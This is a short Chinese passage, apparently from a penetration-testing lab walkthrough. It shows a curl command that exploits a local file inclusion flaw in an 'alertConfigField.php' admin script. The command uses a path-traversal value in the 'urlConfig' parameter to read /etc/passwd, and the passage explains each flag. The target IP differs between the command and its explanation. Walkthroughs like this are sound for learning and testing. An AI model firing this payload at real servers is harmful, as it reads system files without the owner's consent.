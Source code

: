 ![image-20230428010327329](./assets/image-20230428010327329.png)



## 2.1 文件包含漏洞利用

使用 curl 来利用 LFI 漏洞来获取 etc/password 文件

```shell
curl -s --data-urlencode urlConfig=../../../../../../../../../etc/passwd http://192.168.125.138/administrator/alerts/alertConfigField.php
```

- `-s`：使用静默模式，不输出任何进度或错误信息。
- `--data-urlencode`：将数据作为 URL 编码的形式发送。
- `urlConfig=../../../../../../../../../etc/passwd`：要发送的数据，它是一个 URL 配置字符串，其中 `../../../../../../../../../etc/passwd` 代表了要访问的文件路径。
- `http://192.168.1.106/administrator/alerts/alertConfigField.php`：目标 URL，表示要将数据发送到这个 URL。

因此，这个命令的目的是将 `../../../../../../../../../etc/passwd` 这个文件路径作为 URL 参数 `urlConfig` 的值，发送到目标 URL `http://192.168.1.106/administrator/alerts/alertConfigField.php`。


